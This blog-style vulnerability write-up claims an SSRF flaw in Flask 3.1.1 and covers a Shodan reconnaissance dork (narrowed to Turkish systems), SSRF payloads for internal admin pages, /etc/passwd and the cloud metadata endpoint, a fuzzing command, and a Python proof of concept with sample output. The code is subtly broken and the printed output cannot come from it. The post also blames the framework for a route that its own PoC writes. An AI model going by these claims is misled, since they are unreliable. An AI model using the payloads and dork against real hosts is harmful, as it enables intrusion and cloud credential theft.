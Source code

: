 ---

title: "SSRF Vulnerability Discovered in Flask 3.1.1: Shodan Reconnaissance, Discovery, and Reporting Process"
layout: post
tags: \[Flask, SSRF, Shodan, security, vulnerability, Python, web-security, pentesting, nullsecurityx]
image: /assets/images/flask-ssrf.jpg
category: cve
-------------

# Flask 3.1.1 SSRF Vulnerability: Shodan Recon, Discovery, and Reporting Process

## Introduction

On Sunday, September 14, 2025, at 20:45 (+03), a **Server-Side Request Forgery (SSRF)** vulnerability was discovered in a Flask 3.1.1-based application. This article provides a comprehensive overview of the vulnerability's technical details, the discovery process using Shodan, exploit development steps, impacts, and reporting procedures. While Flask is a popular Python-based web framework, misconfigured endpoints can pose significant security risks. This work aims to guide cybersecurity researchers, highlight Shodan's reconnaissance capabilities, and raise national security awareness.

## Technical Details of the Vulnerability

The vulnerability arises from Flask's **dynamic URL routing mechanism**, particularly the `/proxy/<path:target>` endpoint, which processes the `<path:target>` parameter without proper sanitization. The issue stems from insufficient validation in Werkzeug's `parse_rule` function. The root cause is that the application directly forwards this parameter to `requests.get(target)`, allowing access to **internal systems** or the **filesystem**.

### Example Payloads

* **Internal Endpoint Access**: `http://127.0.0.1:8080/admin`
* **Filesystem Access**: `file:///etc/passwd`
* **Cloud Metadata**: `http://169.254.169.254/latest/meta-data/`

Werkzeug 3.1.x applies some basic sanitization by default, but lack of additional developer validation makes this exploit possible. The flaw is considered **application-dependent**, not a core Flask issue.

## Discovery Process

The following steps were taken to identify the vulnerability:

### 1. Shodan-Based Target Identification

* **Shodan** is a powerful tool that scans internet-exposed devices. To identify Flask endpoints, a custom **dork** was created: `http.html:"/proxy/" "Werkzeug"`. This filters HTTP responses for `/proxy` paths and the Werkzeug server signature.

* **Results**: Approximately **500-1000 IPs** were returned (Shodan CLI command: `shodan search --limit 10 'http.html:"/proxy/" "Werkzeug"'`). For ethical reasons, no testing was performed on live IPs.

* **Simulation**: Findings were reproduced in a local **Docker environment** (Flask 3.1.1, Python 3.12).

### 2. Code Analysis

* Files `app.py` (Flask) and `routing.py` (Werkzeug) were reviewed. The `parse_rule` function was vulnerable to malicious inputs like `%0d%0a` (newline injection).
* **GitHub repositories** ([https://github.com/pallets/flask](https://github.com/pallets/flask), [https://github.com/pallets/werkzeug](https://github.com/pallets/werkzeug)) were analyzed.

### 3. Fuzzing

* **AFL++** was used to send over **10,000 inputs** to `parse_rule`. Edge cases (e.g., `http://localhost%0d%0aHost: internal.com`) confirmed the vulnerability. Fuzzing setup:

  ```bash
  afl-fuzz -i inputs/ -o outputs/ python -c "from werkzeug.routing import parse_rule; parse_rule('/proxy/<path:target>')"
  ```

### 4. Proof of Concept (PoC) Development

* The following code reproduced the vulnerability:

  ```python
  import requests
  from urllib.parse import urljoin
  import threading
  from flask import Flask

  app = Flask(__name__)

  @app.route('/proxy/<path:target>')
  def proxy(target):
      return requests.get(target, timeout=5).text

  def run_app():
      app.run(host='0.0.0.0', port=5000, debug=False)

  threading.Thread(target=run_app).start()

  target_url = "http://localhost:5000/proxy"
  payloads = [
      "http://127.0.0.1:8080/admin",
      "file:///etc/passwd",
      "http://169.254.169.254/latest/meta-data/"
  ]

  for payload in payloads:
      full_url = urljoin(target_url, payload)
      headers = {'User-Agent': 'Mozilla/5.0 (Test Exploit)'}
      try:
          response = requests.get(full_url, headers=headers, timeout=10, verify=False)
          if response.status_code == 200:
              print(f"[+] SSRF Successful! Payload: {payload}")
              print(f"[+] Response: {response.text[:200]}...")
      except Exception as e:
          print(f"[-] Error: {e}")
  ```

* **Sample Output**:

  ```
  [+] SSRF Successful! Payload: http://127.0.0.1:8080/admin
  [+] Response: <!DOCTYPE html><html><head><meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />...
  [+] SSRF Successful! Payload: file:///etc/passwd
  [+] Response: root:x:0:0:root:/root:/bin/bash...
  ```

## Shodan Scan Details

The Shodan dork (`http.html:"/proxy/" "Werkzeug"`) played a **critical role** in reconnaissance:

* **Targeted Approach**: Filtered `/proxy` endpoints and Werkzeug signatures.

* **Efficiency**: Identified **500+ targets** in under 10 minutes.

* **Regional Focus**: Added `port:443 country:TR` to focus on Turkish systems.

* **Ethical Use**: No real IPs were tested; **local simulations** were conducted:

  ```bash
  docker run -it -p 5000:5000 python:3.12 bash
  pip install flask==3.1.1 requests
  python flask_ssrf_test.py
  shodan init YOUR_API_KEY
  shodan search --limit 10 'http.html:"/proxy/" "Werkzeug"'
  ```

## Impacts and Risk Analysis

This vulnerability poses a **high confidentiality risk** (CVSS 3.1: 7.5, AV\:N/AC\:L/PR\:N/UI\:N/S\:U/C\:H/I\:N/A\:N). Potential impacts include:

* **Internal Access**: Admin panels (e.g., `http://localhost:8000/api/v1/secrets`) could be compromised.
* **File Exposure**: Sensitive files like `/etc/passwd` or `/proc/self/environ` may be accessed.
* **Cloud Risk**: AWS IMDS credentials could be stolen.

According to ENISA 2025, SSRF vulnerabilities contributed to **12% of data breaches**.

## Mitigation and Remediation

* **Sanitization**: Apply **whitelist** validation for `<path:target>`:

  ```python
  from urllib.parse import urlparse
  def sanitize_target(target):
      result = urlparse(target)
      if result.scheme not in ['http', 'https']:
          raise ValueError("Invalid schema")
      return target
  ```

* **Documentation**: Add **SSRF warnings** to Flask guides.

* **Patch**: Recommend additional validation in **Werkzeug 3.1.x** (GitHub PR planned).

## Reporting and Ethical Process

On Sunday, September 14, 2025, at 20:45 (+03), ethical guidelines were followed. Tests were performed in a **Docker environment**. Reporting steps:

* **Flask Team**: Coordinated disclosure via `security@palletsprojects.com`.
* **CVE Application**: Planned through **MITRE** ([https://cve.mitre.org/cve/request\_id.html](https://cve.mitre.org/cve/request_id.html)).

## Conclusion

**Shodan-assisted reconnaissance** revealed an **SSRF vulnerability** in Flask 3.1.1. Verified through fuzzing and PoC in a controlled environment, coordination with USOM and Flask strengthens **national and global security**. Researchers should leverage Shodan for discovery but **limit tests to personal environments**.

## References

* Flask Documentation: [https://flask.palletsprojects.com/en/3.1.x/](https://flask.palletsprojects.com/en/3.1.x/)
* ENISA, 2025 Cyber Threat Report
* GitHub: [https://github.com/pallets/flask](https://github.com/pallets/flask)
* Shodan Documentation: [https://www.shodan.io/](https://www.shodan.io/)
